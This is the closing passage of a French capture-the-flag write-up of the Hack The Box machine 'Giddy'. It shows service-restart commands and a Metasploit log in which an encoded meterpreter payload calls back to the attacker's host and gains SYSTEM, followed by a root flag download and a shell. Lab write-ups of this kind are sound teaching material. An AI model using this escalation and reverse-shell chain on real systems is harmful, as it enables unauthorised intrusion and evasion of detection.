 ```plain
Start-Service -Name "Ubiquiti UniFi Video"
Stop-Service -Name "Ubiquiti UniFi Video"
```

Ainsi on obtient notre meterpreter depuis lequel on télécharge le flag (CF559C6C121F683BF3E56891E80641B1) et on peut si on le souhaite avoir une invite de commande sans être détecté :)   

```plain
msf exploit(multi/handler) > [*] https://10.10.13.82:443 handling request from 10.10.10.104; (UUID: dltetexe) Encoded stage with x86/shikata_ga_nai
[*] https://10.10.13.82:443 handling request from 10.10.10.104; (UUID: dltetexe) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 2 opened (10.10.13.82:443 -> 10.10.10.104:50086) at 2018-09-11 21:45:27 +0200

msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : GIDDY
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > cd c:/users/administrator/desktop
meterpreter > download root.txt
[*] Downloading: root.txt -> root.txt
[*] Downloaded 32.00 B of 32.00 B (100.0%): root.txt -> root.txt
[*] download   : root.txt -> root.txt
meterpreter > shell
Process 4972 created.
Channel 2 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\users\administrator\desktop>whoami
whoami
nt authority\system
```

Victory
-------

Encore une fois un challenge très intéressant qui a permis d'utiliser différentes techniques de contournement de la sécurité sous Windows.

*Published February 16 2019 at 16 21*